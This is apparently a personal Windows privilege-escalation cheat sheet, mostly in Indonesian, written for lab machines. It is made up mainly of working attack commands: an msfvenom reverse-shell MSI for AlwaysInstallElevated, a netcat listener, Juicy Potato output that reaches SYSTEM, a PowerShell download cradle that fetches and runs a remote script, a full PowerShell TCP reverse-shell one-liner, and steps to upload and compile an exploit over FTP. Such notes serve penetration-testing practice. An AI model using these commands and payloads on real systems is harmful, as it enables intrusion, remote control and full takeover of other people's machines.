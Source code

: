# PrivescCheck 

dipake untuk cek privesc

    C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Always Install Elevated

https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path

allow user buat install package dengan akses system
cara cek bis apaka `PrivescCheck` kalo enabled bisa pakai msfvenom buat bikin exploit

    msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

selanjutnya tinggal upload, listen, dan execute.

    nc -lvvp 1234

# whoami /priv

kalo SeImpersonatePrivilege enabled berarti bisa pakai lonley potato https://github.com/decoder-it/lonelypotato
atau bisa coba pakai https://github.com/Re4son/Churrasco/ (ada exe)
enumnya bisa pakai https://github.com/rasta-mouse/Sherlock mirip linpeas

# Download file using powershell

    (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')

# Download file using powershell

    powershell.exe -c "Invoke-WebRequest 10.10.14.10:80/37049-64.exe -OutFile e.exe"
    
# juicy potato


    PS C:\Users\merlin\appdata\local\temp> .\lp.exe -t * -p .\rev.bat -l 1234
    Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1234
    ....
    [+] authresult 0
    {4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

lp.exe download disini: https://github.com/ohpe/juicy-potato/releases
isi rev.bat:

    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')

isi shell.ps1:

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


# this program cannot be run in dos mode

kalo ada FTP service run, set ke bin pakai perintah:

    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    Name (10.10.10.5:tripoloski): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> bin
    200 Type set to I.
    ftp> put 40564.exe
    local: 40564.exe remote: 40564.exe
    200 PORT command successful.

lalu jalankan binarnya

# COmpile x86 windows binary di linux

    i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32 